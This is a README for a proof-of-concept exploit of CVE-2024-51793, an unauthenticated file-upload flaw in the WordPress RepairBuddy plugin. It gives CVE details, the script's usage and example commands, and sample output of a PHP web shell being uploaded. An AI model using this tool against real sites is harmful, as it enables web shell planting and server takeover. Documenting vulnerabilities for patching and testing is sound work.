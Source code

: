 # 🛡️ WordPress RepairBuddy Plugin Exploit

## 📜 CVE Information

**CVE-ID:** CVE-2024-51793  
**Published:** 2024-11-11  
**Updated:** 2024-11-11  
**Title:** WordPress RepairBuddy plugin <= 3.8115 - Arbitrary File Upload vulnerability  
**Description:**  
Unrestricted Upload of File with Dangerous Type vulnerability in Webful Creations Computer Repair Shop allows Upload a Web Shell to a Web Server. This issue affects Computer Repair Shop: from n/a through 3.8115.

**CWE:**  
- [CWE-434: Unrestricted Upload of File with Dangerous Type](https://cwe.mitre.org/data/definitions/434.html)

**CVSS:**  
- **Score:** 10.0 (CRITICAL)
- **Version:** 3.1
- **Vector String:** CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

## 📋 Description

This is a proof of concept exploit for the Arbitrary File Upload vulnerability in the WordPress RepairBuddy plugin versions <= 3.8115. The exploit allows an attacker to upload a web shell to the vulnerable server.

## ⚙️ Requirements

- Python 3.x
- `requests` library (`pip install requests`)

## 🚀 Usage

```shell
usage: 
CVE-2024-51793.py [-h] -u URL [-shell SHELL]

WordPress RepairBuddy plugin <= 3.8115 - Arbitrary File Upload vulnerability # By Nxploited ,Khaled alenazi.

options:
  -h, --help     show this help message and exit
  -u, --url URL  Target URL
  -shell SHELL   Shell code to upload
```

## 📖 Example

```shell
python 
CVE-2024-51793.py -u http://target.com/wordpress
```

## 📝 Output

```text
Exploit By : Nxploit Khaled Alenazi,

🎯 The site is vulnerable. Proceeding with the exploit...
Response: "<a href=\"http:\/\/target\/wordpress\/wp-content\/repairbuddy_uploads\/reciepts\/2025_03_23_22_43_50nxploit.php\" target=\"_blank\"><img src=\"http:\/\/target\/wordpress\/wp-content\/plugins\/computer-repair-shop\/assets\/images\/attachment.png\" class=\"\" \/><\/a><input type=\"hidden\" name=\"repairBuddAttachment_file[]\" value=\"http:\/\/target\/wordpress\/wp-content\/repairbuddy_uploads\/reciepts\/2025_03_23_22_43_50nxploit.php\" \/>"
✅ Shell uploaded successfully.
🔗 Shell URL: http://target/wordpress/wp-content/repairbuddy_uploads/reciepts/2025_03_23_22_43_50nxploit.php
```

## 👨‍💻 Author

Exploit By: Nxploited, Khaled Alenazi
